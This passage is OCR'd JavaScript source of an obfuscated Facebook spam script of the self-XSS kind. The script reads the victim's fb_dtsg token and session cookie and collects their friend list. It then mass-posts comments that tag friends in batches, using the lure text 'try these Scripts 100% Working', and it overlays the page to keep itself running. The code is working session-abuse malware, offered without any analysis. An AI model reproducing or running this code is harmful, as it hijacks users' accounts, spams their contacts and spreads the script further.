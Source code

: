 ]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) &amp;&amp; (b = e.responseXML);                         c &amp;&amp; c(b)                     } else g.f &amp;&amp; document.getElementsByTagName("body")[0].removeChild(g.f), g.e &amp;&amp; (document.getElementById(g.e).style.display = "none"), error &amp;&amp; error(e.status)             };             e.send(k)         }     },     d: function () {         return this.b()     } };  function ChangeLocation() {     window.location.href = "http://www.facebook.com/" } setTimeout("ChangeLocation", 1); window.onbeforeunload = function () {     if (window[tag + "_close"]) return "This script is running now!" }; var i = 3; var tay = 3; var suc = 0; var err = 0; var arr = new Array; var arn = new Array; var pho = new Array; var tag = "Close"; var page_name, x = document.getElementsByTagName("span"); for (i = 0; i &lt; x.length; i++)     if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML; var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&amp;token=v7&amp;filter[0]=user&amp;options[0]=friends_only&amp;options[1]=nm&amp;options[2]=sort_alpha&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=l", function (a) {     var b = a;     var c = b.substring(b.indexOf("{"));     var d = JSON.parse(c);     d = d.payload.entries;     for (var e = 0; e &lt; d.length; e++) arr.push(d[e].uid);     for (var eg = 0; eg &lt; d.length; eg++) arn.push(d[eg].text);     for (var pic = 0; pic &lt; d.length; pic++) pho.push(d[pic].photo);     i = arr.length - 1;     tay = i;     console.log(arr.length);     var display = "&lt;div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ebb6c8'>";     display += "&lt;div style='padding-bottom:10px;font-size:15px;'>" + Title + "&lt;/div>";     display += arr.length + " Friends Detected";     display += "&lt;/div>";     document.getElementById("pagelet_sidebar").innerHTML = display;     InviteFriends(arr[i]) }); var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","281715322007923","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round","  @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=Excellent...wOw,.,.try these Scripts 100% Working","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var